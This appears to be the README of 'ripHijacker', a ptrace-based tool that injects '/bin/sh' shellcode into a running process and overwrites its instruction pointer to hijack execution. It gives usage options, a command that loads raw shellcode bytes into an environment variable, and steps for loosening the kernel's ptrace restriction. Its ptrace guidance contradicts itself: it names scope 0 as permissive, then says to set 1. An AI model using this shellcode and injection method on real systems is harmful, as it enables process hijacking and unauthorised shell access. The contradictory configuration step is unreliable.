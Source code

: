 # ripHijacker
                       
Usage: ./ripHijacker -p target_pid [-e environment_variable -n target_program_name]

-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid

..allow you to inject an hardcoded "/bin/sh" shellcode into the stack of the target and to overwrite its rip register with the address pointed by its rsp register.
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid -e environment_variable -n target_program_name 

..allow you to overwrite the register rip of the target with the address of the environment variable (specified with -e option) in the target's stack.
-------------------------------------------------------------------------------------------------------------------------
We can load a simple shellcode in an environment variable with the command:

export A=$(python -c "print '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")

ripHijacker uses ptrace. "A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes", so we can change scope of ptrace with these commands:

sudo vim  /etc/sysctl.d/10-ptrace.conf

..and setting.. 

kernel.yama.ptrace_scope = 1

..after that we must load the new settings with:

sudo sysctl --system -a -p | grep  yama

Obviously the target program must be compiled with the "-z execstack" option.

Acknowledgment:

  Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
  conoscenza dell'utilità di ptrace.





